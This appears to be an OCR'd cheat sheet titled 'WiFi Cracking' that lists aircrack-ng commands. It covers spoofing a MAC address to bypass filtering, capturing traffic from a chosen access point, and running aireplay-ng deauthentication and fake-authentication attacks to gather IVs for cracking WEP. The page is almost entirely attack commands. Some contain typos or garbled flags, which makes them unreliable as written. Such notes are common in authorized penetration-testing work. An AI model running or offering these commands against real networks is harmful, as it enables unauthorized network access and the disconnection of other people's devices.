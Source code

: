 # WiFi Cracking

### General Informations

# Bypass MAC filter

macchanger –m B0:D0:9C:5C:EF:86 wlan0

### Monitoring, Recon and Dumping

Using the aircrack-ng suite
Turning on the monitor mode
`sudo airmon-ng start wlan0mon`

# Simple passive listening and capture

# Used to discover AP in the environment

sudo airodump-ng wlan0mon

# Targetted listening and capture

# Focus on one AP and one channel

sudo airodump-ng wlan0mon --bssid xx:xx:xx:xx:xx:xx –c 1 –w outfile

### Attacking WEP

> # WEP is an old encryption protocol but still used in some places
> 
> # It is vulnerable to direct cracking attacks
> 
> # The only requirement is to get enough IV
> 
> # The process can be enhanced by sending deauth packets
> 
> # -0 == detauth attack, sending 3 packets (can be increased)

aireplay-ng -0 3 -a &lt;TARGET\_AP\_MAC&gt; wlan0mon -w

```
Another possibility is to use fake authentication to generate IV
Siwtches -10eah

1 = fake authentication
0 = delay between association demands
e = AP ESSID (name)
a = AP MAC
h = attacker MAC

aireplay-ng -1 0 -e teddy -a 00:14:6C:7E:40:80 -h 00:0F:B5:88:AC:82 wlan0mon
```
